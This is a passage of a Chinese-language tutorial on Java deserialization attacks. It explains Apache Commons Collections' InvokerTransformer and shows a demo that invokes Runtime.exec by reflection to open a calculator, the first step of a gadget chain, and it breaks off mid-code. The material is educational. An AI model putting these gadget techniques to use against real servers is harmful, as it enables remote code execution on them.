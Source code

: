 通过ctrl+N寻找InvokerTransformer类的源码

该类的构造函数由三个参数组成，分别对应方法名称，方法的参数类型以及方法的参数。

![image-20240827165758890](反序列化渗透与防御/image-20240827165758890.png)	

而该类的transform方法需要传入一个对象参数，通过传入一个对象参数，然后通过之前构造函数提供的方法和参数让这个对象去执行。最后依据执行的method方法的返回值类型进行return.

![image-20240827170208919](反序列化渗透与防御/image-20240827170208919.png)	

为了解释这段代码的含义，可以用下列代码样例运行理解，运行下面这段代码，会启动计算器。

```java
package com.wuya.apache;

import org.apache.commons.collections.functors.InvokerTransformer;

/**
 * InvokerTransformer反射触发
 */
public class TransTest1 {
    public static void main(String[] args)  {
        // 创建实例 传入构造方法参数 （函数名 参数类型 参数值）
        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new String[]{"Calc.exe"}
        );

        try {
            // 通过反射机制依次获得Runtime类 getRuntime构造方法 最后生成Runtime实例
            // Object input = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
            Object input = Runtime.getRuntime(); //获取Runtime对象赋值给input
                    // 执行transform函数
            invokerTransformer.transform(input); //让input对象去打开计算器。
        }catch (Exception e){
            e.printStackTrace();
```